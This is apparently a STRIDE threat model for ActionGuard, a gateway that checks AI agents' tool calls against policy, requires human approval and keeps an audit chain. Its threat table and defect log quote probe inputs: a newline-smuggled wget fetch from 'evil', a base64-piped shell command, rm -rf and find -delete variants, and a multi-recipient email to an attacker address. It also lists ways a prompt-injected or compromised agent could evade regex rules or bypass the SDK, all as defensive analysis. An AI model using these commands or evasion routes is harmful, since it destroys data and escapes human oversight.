

# Threat Model

**Method:** STRIDE (Spoofing, Tampering, Repudiation, Information disclosure, Denial of service, Elevation of privilege), applied both to ActionGuard itself and to the agent ecosystem it protects. Mitigations name the actual mechanism in the code. Anything not implemented is marked as **future work**.

---

## 1. System summary

An AI agent proposes tool calls. The SDK (`Guard`) submits each call to the gateway (`POST /v1/actions`). The engine returns `allow`/`review`/`deny`. Reviewers use the dashboard with an admin bearer token. All decisions are written to SQLite: the `actions` table plus the hash-chained `audit` table. Details: [Architecture](02-architecture.md).

## 2. Assets

| ID | Asset | Why it matters |
|---|---|---|
| AS-1 | Protected resources: files, SSH/cloud credentials, databases, outbound network, email, payment accounts | The damage an agent can do |
| AS-2 | Admin token (`ACTIONGUARD_ADMIN_TOKEN`) | Grants approve/reject, lockdown, policy reload |
| AS-3 | Policy file (`policies/default.json`) | Defines what is allowed |
| AS-4 | Audit ledger (`audit` table) | Evidence of what happened; integrity is the security property |
| AS-5 | Action state (`actions` table) | Current status of each action, including pending approvals |
| AS-6 | Engine runtime state | Lockdown flag, rate-limit windows (memory only) |
| AS-7 | Gateway availability | Fail-closed design: if it is down, agents stop |
| AS-8 | Action arguments in storage | May contain secrets or PII that the agent tried to send |

## 3. Trust boundaries

| Boundary | Crossing | Control |
|---|---|---|
| TB-1 → TB-2 | Untrusted text enters the model context | **None in ActionGuard** (prompt-level guardrails are complementary) |
| TB-2 → TB-3 | Agent submits action | Input validation (`NAME_RX`, object `args`, 1 MB limit); no privileges granted |
| TB-2 → World | Tool executes | Only after an `allowed`/`approved` verdict, **if** the tool is SDK-wrapped |
| TB-5 → TB-3 | Admin commands | Bearer token, `hmac.compare_digest` |
| TB-3 → TB-4 | Persistence | Transactions; hash chain on `audit` |

## 4. Attacker profiles

| ID | Profile | Capabilities | Goal |
|---|---|---|---|
| ATK-1 | **Prompt-injected agent** | Fully controls the tool name and arguments the LLM proposes. Uses the SDK. No admin token, no code execution outside tools | Steal credentials, exfiltrate data, destroy resources, move money, approve itself |
| ATK-2 | **Malicious insider** | Shell access to the host and write access to `actionguard.db` and the policy file. May know the admin token | Perform a forbidden action and erase the evidence; weaken the policy |
| ATK-3 | **Compromised agent host** | Arbitrary code execution as the agent's OS user (e.g. via a malicious package or an allowed command) | Bypass the SDK, read local endpoints, steal the token from env or URL, tamper with files |
| ATK-4 | **Faulty agent** (non-malicious) | Loops, hallucinates destructive commands | Accidental damage, resource exhaustion |

## 5. STRIDE threat table

Residual risk: **L** low, **M** medium, **H** high.

| ID | Threat | STRIDE | Attacker | Mitigation in ActionGuard | Residual |
|---|---|---|---|---|---|
| T-01 | Agent approves its own pending action via `POST /v1/actions/{id}/approve` | E | ATK-1 | Admin bearer token required; the agent's `Guard` never holds it; `401` otherwise (tested in `test_human_approval_flow`) | **L** (H if the token is placed in the agent's environment) |
| T-02 | Agent uses another agent's name or rotates names to escape its rate limit or misattribute actions | S | ATK-1, ATK-3 | Names are format-validated only. Identity is **self-declared** | **H**: per-agent credentials are future work |
| T-03 | Admin token disclosed through the `?token=` URL (browser history, screen share), or the well-known default `demo-admin-token` used outside demos | S / I | ATK-2, ATK-3 | Startup warning when the default token is in use; token configurable via env | **M** |
| T-04 | `ACTIONGUARD_ADMIN_TOKEN` set to an empty string, so that an empty `Authorization` header would compare equal and **anyone would be admin** | E | ATK-1, ATK-3 | **Fixed (D-1):** `_is_admin` returns `False` whenever the configured token is empty, and `main` treats an empty env var as unset, falling back to the default token with its startup warning. Verified: lockdown with an empty token → `401` | **L** |
| T-05 | Editing a past audit record to hide an action | T | ATK-2 | SHA-256 hash chain; `GET /v1/audit/verify` reports `broken_at` (shown live with `demo/tamper.py`; tested in `test_audit_chain_detects_tampering`) | **M**: see T-06 |
| T-06 | Recomputing the whole chain after an edit, or deleting the newest records | T | ATK-2 | None internally: the hash is unkeyed and the head is not anchored | **H** until the head hash is anchored externally (future work) |
| T-07 | Editing or deleting rows in the mutable `actions` table (e.g. changing `denied` to `approved`) | T | ATK-2 | Every transition is also in `audit`, so a manual cross-check reveals it | **M**: automatic actions↔audit reconciliation is future work |
| T-08 | Weakening the policy file and reloading or restarting | T / E | ATK-2 | Reload needs the admin token and writes a `policy_reloaded` audit event with `by` | **M**: file content is not hashed into the audit; a restart loads the edited file with no audit event |
| T-09 | Restarting the gateway to clear an active lockdown | T | ATK-2, ATK-3 | None: lockdown is in memory | **M**: persisting lockdown is future work |
| T-10 | Reviewer denies having approved something | R | ATK-2 | `decided_by`, `decided_at`, `approved` audit event | **M**: `by` is self-declared and the token is shared; per-user identity is future work |
| T-11 | Agent operator claims the agent never attempted an action | R | any | Every evaluation is logged (`evaluated`) **before** the tool runs | **L** |
| T-12 | Local processes read `/v1/actions`, `/v1/events`, `/v1/policy` without auth: arguments may hold secrets (e.g. the AWS key in a denied exfiltration attempt is stored verbatim), and the policy reveals evasion targets | I | ATK-3 | Gateway binds `127.0.0.1` by default | **M**: read auth and argument redaction are future work |
| T-13 | Data exfiltrated through an *allowed* channel (internal email, query string to an allow-listed domain) | I | ATK-1 | `deny-secret-exfiltration`, `flag-pii`, `flag-env-file`, `deny-credential-access` scan the whole argument JSON | **M**: content-pattern detection is incomplete by nature |
| T-14 | Flooding the gateway, or very large bodies | D | ATK-1, ATK-4 | 1,000,000-byte body limit; per-agent rate limit (20 / 10 s) | **M**: rate-limited calls are still stored, so the DB can grow; name rotation defeats per-agent limits (T-02) |
| T-15 | Opening many `/v1/events` connections (one thread each) | D | ATK-3 | None | **L–M** (loopback only) |
| T-16 | Gateway outage stops all agents | D | any | Intended fail-closed behaviour | Availability trade-off accepted |
| T-17 | Catastrophic regex backtracking (ReDoS) on attacker-controlled arguments | D | ATK-1 | Patterns are written by the admin, not taken from requests; default patterns are simple | **L** |
| T-18 | Destructive command disguised to evade deny regexes (base64, `$VAR` expansion, quoting such as `r''m`, alternative tools such as `find / -delete`) | E | ATK-1 | Allow rules are anchored allow-lists, and anything not allowed falls to `default_decision: review` (verified: `echo Y21k \| base64 -d \| sh` → review, `r''m -rf /tmp/x` → review) | **M**: a human must catch it, and reviewer fatigue applies |
| T-19 | Newline smuggling past `allow-safe-shell`: `"git status\nwget http://evil/x -O /tmp/x"` | E | ATK-1 | **Fixed (D-2):** arguments must start with a literal space and come from `` [^;&\|`$<>\n\r]* ``, and the pattern is anchored with `\Z` (true end of string, unlike `$`). The probe now falls to `default` → `review` (`test_known_bypasses_closed`) | **L** |
| T-20 | Multiple recipients in `send_email(to="evil@attacker.io, cfo@acme.com")` treated as internal and skipping review | E / I | ATK-1 | **Fixed (D-3):** `allow-internal-email` now matches a single recipient only (`^[^,;\s]+@acme\.com$`), and `review-external-email` matches everything else (`^(?![^,;\s]+@acme\.com$)`). Any recipient list goes to review, risk 30 (`test_known_bypasses_closed`) | **L** |
| T-21 | Agent with raw access to the capability (direct `subprocess`, raw HTTP client, DB credentials) bypasses the SDK entirely | E | ATK-3 (or ATK-1 if the agent has a generic code-exec tool) | Out of scope for the cooperative SDK | **H**: mitigation is to place tools behind the gateway or in a sandbox (future work) |
| T-22 | Approving after the deadline, before anything has expired the overdue action | T | ATK-2 | **Fixed (D-5):** `Gateway.resolve` calls `expire()` before approving or rejecting, so an overdue action is `expired` first and the approve returns `409 not pending` | **L** |
| T-23 | Reviewer socially engineered into approving (convincing memo text) | S / E | ATK-1 | Reasons, rule ids and risk shown next to Approve/Reject | **M** |

## 6. Mapping to OWASP Top 10 for LLM Applications (2025)

| OWASP item | Relevance | How ActionGuard addresses it |
|---|---|---|
| **LLM01 Prompt Injection** | Indirect injection makes the agent call harmful tools (demo scenario 2) | Does not detect the injection. It limits the *consequences*: credential reads denied, secret exfiltration denied, `.env` held for review |
| **LLM02 Sensitive Information Disclosure** | Agent leaks secrets or PII through tools | `deny-credential-access`, `deny-secret-exfiltration`, `flag-env-file`, `flag-pii` |
| LLM03 Supply Chain | Compromised dependencies | The gateway has zero third-party runtime dependencies (stdlib only). Agent dependencies are out of scope |
| LLM04 Data and Model Poisoning | Poisoned model behaves badly | Indirect: whatever the model's cause, its tool calls are still mediated |
| **LLM05 Improper Output Handling** | Model output (shell, SQL) passed to interpreters unchecked | Generated commands and SQL are checked by policy before execution (`deny-destructive-sql`, `deny-remote-code-exec`, ...) |
| **LLM06 Excessive Agency** | Too much functionality, permission or autonomy | Core purpose: complete mediation of wrapped tools, allow-lists, human approval for high-impact actions, kill switch, audit |
| LLM07 System Prompt Leakage | n/a | Not addressed |
| LLM08 Vector and Embedding Weaknesses | n/a | Not addressed |
| LLM09 Misinformation | n/a | Not addressed |
| **LLM10 Unbounded Consumption** | Runaway loops, cost blow-ups | Per-agent rate limit (`rate-limit`, 20 / 10 s), demo scenario 5 |

## 7. Known limitations

These are inherent to the current design. They are stated explicitly so the panel can see the boundaries of the claims.

1. **Regex policies can be evaded by obfuscation.** Deny rules match text patterns. Base64-encoded payloads, shell variable expansion (`$a$b`), quoting tricks (`r''m`), Unicode look-alikes or functionally equivalent commands (`find / -delete` instead of `rm -rf /`) do not match the deny list. The defence in depth is that allow rules are narrow, anchored allow-lists and the policy default is `review`, so unrecognised commands go to a human instead of executing. A semantic parser for shell and SQL (e.g. an AST-based check) is future work.
2. **The SDK is cooperative.** Enforcement happens inside the agent process. An agent, or code it runs, that has raw access to the underlying capability can simply not call the SDK. The real mitigation is architectural and is **future work**: run the tools behind the gateway (the gateway or a tool proxy holds the credentials and executes the call only after approval), or run the agent in a sandbox whose only path to the outside world is the gateway.
3. **Localhost read endpoints are unauthenticated.** `GET /v1/actions`, `/v1/events`, `/v1/stats`, `/v1/policy` and `/v1/audit/verify` need no token. Any local process can read action arguments (which may contain the very secrets an attacker tried to exfiltrate) and the policy. Binding to `127.0.0.1` limits exposure to the host. Read-side auth and argument redaction are future work.
4. **The rate limiter is in memory and per process.** It resets on restart, it is not shared across gateway replicas, and it is keyed by the self-declared agent name.
5. **The hash chain detects tampering but does not prevent it.** An insider with DB write access can still edit records, and verification will show it. However, an attacker can recompute every hash after an edit, or delete the newest records, and the internal check will still pass. Closing this requires **external anchoring** of the head hash (`head` from `/v1/audit/verify`): periodically publishing it to a write-once store, a transparency log, or a separate system the insider does not control (future work). A keyed MAC (HMAC with a key outside the DB) would also stop a DB-only attacker from recomputing the chain.
6. **Lockdown is not persisted.** A gateway restart clears it.
7. **Single shared admin token.** There are no individual reviewer identities, so `decided_by` is whatever the token holder writes in `by`.
8. **No TLS.** The prototype is for loopback use. Remote deployment needs TLS and authenticated agents.

## 8. Defects found during threat modelling and their resolution

These defects were found by our own review and probing (see [Test plan §6](05-test-plan.md#6-exploratory-security-probes-engine-default-policy)). Most have since been fixed in code, and each fix was re-checked with the original attack input. The matching test-plan entries are in the [defect log](05-test-plan.md#92-logged-defects).

| ID | Location | Defect | Resolution | Status |
|---|---|---|---|---|
| D-1 | `server.py` `main` / `_is_admin` | `ACTIONGUARD_ADMIN_TOKEN=""` made every request admin (an empty header compared equal to an empty token) | `_is_admin` returns `False` when the token is empty; `main` treats an empty env var as unset and falls back to `demo-admin-token` with the startup warning | Fixed |
| D-2 | `policies/default.json` `allow-safe-shell` | Newline was not excluded from the argument class, so `git status\n<any command>` was allowed | Arguments must be a literal space followed by `` [^;&\|`$<>\n\r]* ``, anchored with `\Z`. Regression test: `test_known_bypasses_closed` | Fixed |
| D-3 | `policies/default.json` `allow-internal-email` / `review-external-email` | A recipient list ending with an `@acme.com` address was treated as internal | Allow only a single recipient (`^[^,;\s]+@acme\.com$`); review anything else (`^(?![^,;\s]+@acme\.com$)`). Regression test: `test_known_bypasses_closed` | Fixed |
| D-4 | `policies/default.json` `allow-small-payments` | A negative `amount` was allowed with no review | The rule now requires `"when": {"amount": "^\\d+(\\.\\d+)?$"}`, so negative or non-numeric amounts match no allow rule and fall to `default_decision: review`. A zero amount still matches. Regression test: `test_known_bypasses_closed` | Fixed |
| D-5 | `server.py` `Gateway.resolve` | Approve/reject did not run expiry first, so an overdue action could still be approved | `resolve` calls `expire()` first; the approve then returns `409` | Fixed |
| D-6 | `engine.py` `_compile`, `server.py` reload handler | A non-integer rule `risk` raised an uncaught `ValueError` on reload, so the client got no HTTP response | `risk` is converted by `_int`, which raises `PolicyError`; the reload handler catches any exception, keeps the old policy and returns `400`. Regression test: `test_known_bypasses_closed` (the `PolicyError`) | Fixed |
| D-7 | `server.py` `_json_body` | The 400 for a body over 1 MB is sent without reading the body, so the client may see a connection reset instead of the 400 | None yet. The request is still rejected, and the SDK fails closed | Open (minor) |
| D-8 | `engine.py` / `server.py` | Lockdown is held in memory and is lost on restart (T-09) | None yet. Documented limitation (§7, item 6) | Open (future work) |
